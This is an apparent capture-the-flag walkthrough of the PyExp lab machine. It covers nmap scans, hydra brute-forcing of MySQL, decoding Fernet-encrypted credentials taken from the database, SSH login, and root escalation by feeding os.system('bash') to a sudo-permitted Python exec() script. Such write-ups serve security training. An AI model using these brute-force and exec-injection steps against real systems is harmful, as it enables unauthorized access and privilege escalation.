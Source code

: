 # PyExp

OS: Linux 

Difficulties: easy

## summary
things learnt:
 - mysql brute force
 - database enuemration
 - fernet decode
 - python `exec()` exploitation
 
## Open ports

```
# Nmap 7.91 scan initiated Thu Jan 14 03:47:30 2021 as: nmap -sC -sV -oA nmap/initial 192.168.144.118
Nmap scan report for 192.168.144.118
Host is up (0.27s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 39
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, Support41Auth, SupportsCompression, SupportsLoadDataLocal, Speaks41ProtocolNew, Speaks41ProtocolOld, IgnoreSigpipes, LongColumnFlag, FoundRows, InteractiveClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsTransactions, ODBCClient, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: ]w_Wug'(5mH`*P5U,{H7
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 14 03:47:47 2021 -- 1 IP address (1 host up) scanned in 17.76 seconds
```

```
# Nmap 7.91 scan initiated Thu Jan 14 03:48:05 2021 as: nmap -sC -sV -oA nmap/full -p- 192.168.144.118
Nmap scan report for 192.168.144.118
Host is up (0.27s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 4539
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, SupportsCompression, FoundRows, IgnoreSpaceBeforeParenthesis, Support41Auth, SupportsTransactions, Speaks41ProtocolOld, SupportsLoadDataLocal, ConnectWithDatabase, LongColumnFlag, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: C`9;Z8E1f0YPd'5q^bOF
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 14 04:17:35 2021 -- 1 IP address (1 host up) scanned in 1769.98 seconds
```

## Findings 
using hydra to bruteforce the password for mysql. get root:prettywoman
enumerate database, found a table named "fernet"
content: 
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |

use https://asecuritysite.com/encryption/ferdecode to decode the message, get:
lucy:wJ9`"Lemdv9[FEw-

this might be linux login credential. try to ssh using it. and we get user.

## Credentials
mysql 
root:prettywoman

ssh
lucy:wJ9`"Lemdv9[FEw-

## Privesc

run `sudo -l` and get:
```
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

check /opt/exp.py:
```python
uinput = raw_input('how are you?')
exec(uinput)
```

poc:
```bash
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py
how are you?import os;os.system('whoami')
root
```

shell:
```bash
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py
how are you?import os;os.system('bash')
root@pyexp:/home/lucy#
```